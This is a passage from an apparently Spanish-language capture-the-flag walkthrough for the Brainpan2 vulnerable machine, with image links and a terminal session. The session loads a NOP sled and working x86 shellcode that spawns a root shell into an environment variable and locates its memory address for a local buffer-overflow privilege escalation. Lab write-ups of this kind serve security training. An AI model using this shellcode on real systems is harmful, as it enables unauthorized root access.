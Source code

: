 <img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain10.jpg" width="80%"></img>
<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain11.jpg" width="80%"></img>


> Configuramos la variable de entorno con los NOPS y SHELLCODE. Luego obtener la dirección en memoria del mismo.

```
anansi@brainpan2:/tmp$ export EGG=`perl -e 'print "\x90"x64000 . "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`
<x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`  
anansi@brainpan2:/tmp$ chmod +x ./getenv
chmod +x ./getenv
anansi@brainpan2:/tmp$ ./getenv
./getenv
EGG => 0xbfff055c
```
